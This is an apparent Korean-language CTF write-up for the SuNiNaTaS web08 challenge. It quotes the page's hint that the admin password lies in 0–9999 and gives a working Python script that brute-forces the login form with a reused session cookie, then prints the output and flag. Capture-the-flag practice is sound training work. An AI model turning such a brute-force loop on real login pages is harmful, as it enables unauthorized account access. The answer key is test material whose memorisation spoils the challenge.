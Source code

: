 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-02-37-43.png)


# **Write-Up**

Hint로 password가 0~9999라고 한다. Brute Force로 뚫으라는 것 같다.

```html
<!-- Hint : Login 'admin' Password in 0~9999 -->
<!-- M@de by 2theT0P -->
```

action은 web08.asp이고 데이터는 id와 pw이다.

```html
    <form method="post" action="./web08.asp">
... 생략 ...
            <tr height="30" class="table_main">
                <td width="120" align="center" bgcolor="cccccc"><font size="2"><b>ID</b></font></td>
                <td width="120" align="center" bgcolor="cccccc">
                    <input type="text" name="id" style="width: 90"></td>
            </tr>
            <tr height="30" class="table_main">
                <td align="center" bgcolor="cccccc"><font size="2"><b>PW</b></font></td>
                <td align="center" bgcolor="cccccc">
                    <input type="password" name="pw" style="width: 90" maxlength="4"></td>
            </tr>
... 생략 ...
```

다음과 같은 Python script로 password를 알아내자.

```python
import urllib
import urllib.request

url     = 'http://suninatas.com/challenge/web08/web08.asp'
request = urllib.request.Request(url)
response= urllib.request.urlopen(request)
cookie  = response.info().get_all('Set-Cookie')[0]


url     = 'http://suninatas.com/challenge/web08/web08.asp'
for i in range(10000):
    data    = urllib.parse.urlencode({'id':'admin', 'pw':str(i)}).encode()
    request = urllib.request.Request(url, data = data)
    request.add_header('Cookie', cookie)
    try:
        response= urllib.request.urlopen(request, timeout=2.0)
        result  = response.read().decode()
        if 'Password Incorrect!' not in result:
            print('{} Password : {}'.format(result, i))
            break
    except:
        print('{}  Except'.format(i))
        pass

[Output]
... 생략 ...
                <td colspan="2" align="center" bgcolor="cccccc">Authkey : l3ruteforce P@ssword</td>
... 생략 ...
```


# **FLAG**

**l3ruteforce P@ssword**